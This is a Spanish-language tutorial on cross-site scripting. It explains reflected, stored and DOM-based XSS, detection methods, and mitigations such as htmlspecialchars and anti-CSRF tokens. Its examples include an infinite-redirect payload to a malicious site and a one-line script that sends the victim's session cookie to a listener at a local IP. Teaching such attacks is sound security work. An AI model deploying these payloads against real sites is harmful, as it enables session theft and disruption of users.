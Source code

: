 # xss

# XSS

(Cross-Site Scripting)

## ¿Que es el XSS?

Cross-site scripting (también conocido como XSS) es una vulnerabilidad común de la seguridad web que permite a un atacante inyectar código malicioso en una página web.

## ¿Cómo funciona XSS?

---

El Cross-site scripting funcionan mediante la manipulación de un sitio web vulnerable para que devuelva JavaScript malicioso a los usuarios. Cuando el código malicioso se ejecuta dentro del navegador de la víctima, el atacante puede comprometer completamente su interacción con la aplicación.

![Untitled](/img/xss/xss%2089c3ffeba57145dc9cb6b57f51484e0e/Untitled.png)

## ****¿Cuáles son los tipos de ataques XSS?****

### XSS Reflected

---

tipo de vulnerabilidad web que ocurre cuando un atacante inyecta código malicioso en una página web que luego es reflejado de vuelta al usuario a través de un error de validación en la entrada de datos. Esto significa que el código malicioso se ejecuta en el navegador del usuario en lugar de en el servidor web.

Aqui podemos ver un ejemplo de XSS que con un alert nos saque la cookie de sesión

```bash
<script>
    alert(document.cookie);
</script>
```

### XSS Stored

---

Es un tipo de vulnerabilidad web que permite a un atacante inyectar código malicioso en una página web que luego se almacena en una base de datos o en el almacenamiento local del navegador del usuario. Este tipo de vulnerabilidad es más peligroso que el XSS Reflected, ya que el código malicioso se ejecuta en todos los navegadores que acceden a la página web y no solo en el navegador del usuario que realizó la acción.

este en si lo que se encarga es de hacer una continua redirección a un sitio malicioso y llegando a afectar a la disponibilidad.

```bash
<script>
    while (true) {
        window.location = "http://mi-sitio-malicioso.com/";
    }
</script>
```

Este ataque por XSS lo que se encarga es de enviar la cookie de sesión a la ip 192.168.1.135 que tendremos un puerto abierto en modo de escucha.

```bash
<script>new Image().src="http://192.168.1.135/bogus.php?output="+document.cookie;</script>
```

### XSS DOM

---

El XSS (Cross-Site Scripting) basado en el DOM (Document Object Model) es un tipo de ataque XSS que aprovecha las vulnerabilidades en la forma en que el navegador web procesa y renderiza el código HTML y JavaScript. En este tipo de ataque, el código malicioso se inyecta en una página web a través de una entrada de usuario no validada, como un formulario de entrada de datos, y luego se ejecuta en el navegador de la víctima cuando se carga la página.

```bash
<script>
var mensaje = document.createElement('h2');
mensaje.innerHTML = '¡Hola desde un ataque XSS basado en el DOM!';
document.body.appendChild(mensaje);
</script>
```

![Untitled](/img/xss/xss%2089c3ffeba57145dc9cb6b57f51484e0e/Untitled%201.png)

## Formas de detectar vulnerabilidades XSS

Existen multitud de formas para detectar vulnerabilidades XSS en una aplicación web como por ejemplo.

Escaneo automático: existen herramientas de escaneo automático de vulnerabilidades que pueden ayudar a detectar vulnerabilidades XSS. Estas herramientas realizan pruebas automatizadas de inyección de código en los formularios y campos de entrada de la aplicación, y pueden informar sobre las vulnerabilidades detectadas.

Análisis de código fuente: otra forma de detectar vulnerabilidades XSS es mediante el análisis del código fuente de la aplicación. Algunas herramientas de análisis estático de código pueden identificar patrones y fragmentos de código que son propensos a vulnerabilidades XSS.

Pruebas de penetración: las pruebas de penetración son un enfoque más exhaustivo para detectar vulnerabilidades XSS. Los expertos en seguridad pueden realizar pruebas de penetración para simular ataques XSS reales en la aplicación y determinar su nivel de riesgo.

etc.

Es importante recordar que la detección de vulnerabilidades XSS es solo una parte de un programa de seguridad completo. También es importante tomar medidas para remediar las vulnerabilidades detectadas y establecer políticas y procedimientos de seguridad adecuados para prevenir futuros ataques XSS.

## formas de securizar estos errores.

---

## XSS Reflected

Aqui tenemos una forma de securizar un XSS reflected

![Untitled](/img/xss/xss%2089c3ffeba57145dc9cb6b57f51484e0e/Untitled%202.png)

Primero, se verifica si existe un token Anti-CSRF y se comprueba si el token del usuario coincide con el token de sesión almacenado. Esto ayuda a prevenir ataques CSRF (Cross-Site Request Forgery) que intentan engañar al usuario para que realice acciones no deseadas en su sitio web.

Luego, el valor del parámetro “name” es almacenado en una variable llamada “$name” y se utiliza la función “htmlspecialchars” para escapar cualquier carácter especial y evitar posibles vulnerabilidades XSS (Cross-Site Scripting) que podrían ser explotadas por atacantes.

Finalmente, se muestra un mensaje en pantalla que contiene el valor del parámetro “name” para el usuario.

También hay una función llamada “generateSessionToken” que se encarga de generar un token Anti-CSRF único para la sesión actual del usuario.

## XSS stored

![Untitled](/img/xss/xss%2089c3ffeba57145dc9cb6b57f51484e0e/Untitled%203.png)

Este código PHP procesa un formulario de entrada que contiene un mensaje y un nombre de usuario. Si se envía el formulario (el botón “btnSign” es presionado), el código realiza lo siguiente:

Verifica si hay un token Anti-CSRF y comprueba si el token del usuario coincide con el token de sesión almacenado para prevenir ataques CSRF. Recupera el valor de los campos de entrada del formulario, “mtxMessage” y “txtName”. Sanitiza los valores ingresados por el usuario para evitar posibles vulnerabilidades XSS y SQL injection. Para esto, se eliminan las barras invertidas adicionales en el valor del campo y se escapan los caracteres especiales utilizando la función htmlspecialchars. Además, se utiliza la función mysqli_real_escape_string para escapar cualquier carácter especial en la entrada del usuario. Inserta el mensaje y el nombre de usuario en la base de datos utilizando una consulta preparada.

---

## Anexos


